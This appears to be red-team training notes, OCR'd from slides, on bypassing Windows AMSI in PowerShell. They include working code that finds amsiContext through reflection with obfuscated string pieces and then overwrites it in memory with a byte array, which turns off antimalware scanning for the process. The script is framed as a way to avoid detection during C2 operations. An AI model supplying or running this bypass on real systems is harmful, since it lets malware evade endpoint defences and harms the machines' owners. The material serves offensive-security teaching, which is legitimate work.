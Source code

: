 
## AMSI Bypass in Action	
- AMSI is not a global patch, its patched for the current process only. 
- On a red team leveraging C2 framework, as some tasks might spawn a new process > Detected and Burned if we dont patch AMSI for the newly spawned process
## Over ride AMSI 
- In order to override the `amsiContext` we need to find it
- Identify the memory address of `amsiContext`
- Remember, AMSI is being enforced through injecting "amsi.dll" in processes that are being spawned.

This means that all the functionality of AMSI is available in that process's address space. It is here that we will already encounter our first hurdle: the “classic” approach to get this location is identified as malicious by AMSI

## Locate amsiContext
• Static analysis is the likely mechanism
• Test this hypothesis
• Use Unicode characters using built-in PowerShell functionality
```
[Ref].Assembly.GetType('System.Management.Automation.'+[regex]::Unescape('\u
0041')+'msiUtils').GetField("ams"+[regex]::Unescape('\u0069')+"Context",'Non
Public,Static').GetValue($null)
```

## AMSI under the Hood
• Now that we have the memory location
	We can create an arbitrary byte array
	Place it where amsiContext code should be
• First look at what should be there in a debugger

## Creating the AMSI Bypass
Let's create our bypass:
1. First, we are going to create a new byte array that contains the sentence "sec565 rules!!!" in hexadecimal representation
2. We will use the Count function to dynamically compute the size of the array
3. Finally, we will copy the byte array to the amsiContext location, overriding what is currently there

## AMSI Bypass Code
- We create the byte array and will find the length for our call to copy later on.
- Once we get the memory address, we print it to standard out.
- Finally, we copy our byte array to where amsiContext is in memory.
```powershell
# create the byte array
$sec565 = [Byte[]]
(0x73,0x65,0x63,0x35,0x36,0x35,0x20,0x72,0x75,0x6c,0x65,0x73,0x21,0x21,0x21)
# calculate the length of the array dynamically
$length = $sec565.Count
# get the memory location of amsiContext
[IntPtr]$ptr = [Ref].Assembly.GetType('System.Management.Automation.'+[regex
]::Unescape('\u0041')+'msiUtils')
.GetField("ams"+[regex]::Unescape('\u0069')+"Context",'NonPublic,Static').Ge
tValue($null)
# echo it, so we can inspect it in a debugger if we want
echo $ptr
# copy the array to the memory location
[System.Runtime.InteropServices.Marshal]::Copy($sec565,0,$ptr,$length)
```